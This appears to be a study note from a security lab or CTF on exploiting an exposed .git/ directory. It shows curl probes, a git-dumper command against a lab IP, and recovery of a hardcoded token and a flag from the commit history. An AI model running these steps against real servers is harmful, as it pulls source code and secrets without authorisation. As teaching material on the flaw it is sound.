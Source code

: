 # 03.git-exposed-attack

04/05/25

## **Recall**

- What is Git?
- What is Git exposed?
- How to test for Git exposed?
- How to gain access to source code?

## **Notes**

### What it is

**Git** is a widely used version control system for managing source code. During development, the `.git/` directory stores the **entire history** of the repository, including previous versions, commit messages, branches, and potentially sensitive data such as credentials or API keys.

**Git exposed** occurs when the `.git/` directory is **accessible in a production environment**, allowing attackers to reconstruct the repository and gain access to sensitive information such as the source code, credentials, or even third-party service connections.

### How to identify it

You can test for Git exposure by manually sending requests to `.git/` and checking for accessible files:

```bash
curl http://10.10.0.6/.git            # 301 Moved Permanently
curl http://10.10.0.6/.git/HEAD       # ref: refs/heads/master
```

If responses return `200 OK` and the content matches expected Git metadata, the repository is likely exposed and exploitable.

### How to exploit it

To exploit a Git exposed vulnerability, an attacker downloads all available `.git/` files and reconstructs the repository locally. Tools like **git-dumper** automate this process:

```bash
git-dumper http://10.10.0.6/ git-exposed
```

Example output:

```bash
[-] Testing http://10.10.0.6/.git/HEAD [200]
[-] Testing http://10.10.0.6/.git/ [403]
[-] Fetching common files
[-] Fetching http://10.10.0.6/.git/COMMIT_EDITMSG [200]
[-] Fetching http://10.10.0.6/.gitignore [200]
[-] Fetching http://10.10.0.6/.git/description [200]
[-] http://10.10.0.6/.gitignore responded with HTML
[...]
```

With the local repository rebuilt, the attacker gains full access to the source code and commit history:

```bash
cat git-exposed/index.php
```

```php
<?php 
	if(isset($_GET['token']) and !empty($_GET['token'])){
	    if($_GET['token'] == "Sup3rAdm1nT0k3n"){
	        echo "Get the flag: [REDACTED]";
	    }else{
	        echo "Token errado :p";   
	    }
	}
?>

<br>

<center>
	<form action="/" method="get" style="width: 70%">
	
	    <input type="text" name="token" placeholder="Digite o token de acesso">
	    <br>
	    <br>
	    <input type="submit" value="Enviar token de acesso">
	</form>
</center>
```

Accessing commit logs and changes:

```bash
git log
```

```bash
commit 7eb5abd9b86eae8e1cf2c808ebb3220286374337 (HEAD -> master)
Author: ... <...>
Date:   Fri Sep 3 12:11:08 2021 -0300

    Removendo flag
```

Accessing commit changes

```bash
git show 7eb5abd9b86eae8e1cf2c808ebb3220286374337
```

```bash

-   echo "Get the flag: CS{G1t_3Xp0s3d_4tt4ck}";
+   echo "Get the flag: [REDACTED]";
```

## **Summary**

Git exposed is a vulnerability caused by misconfigured deployments where the `.git/` directory, meant for version control during development, is left accessible on a production server. This exposure allows attackers to retrieve the entire contents of the Git repository, including source code, secrets, and commit history. By reconstructing the repository locally, an attacker can compromise the integrity and confidentiality of the application and potentially any external services it communicates with. The root of this issue lies in the unintentional reflection of internal development artifacts to the public-facing surface of the application.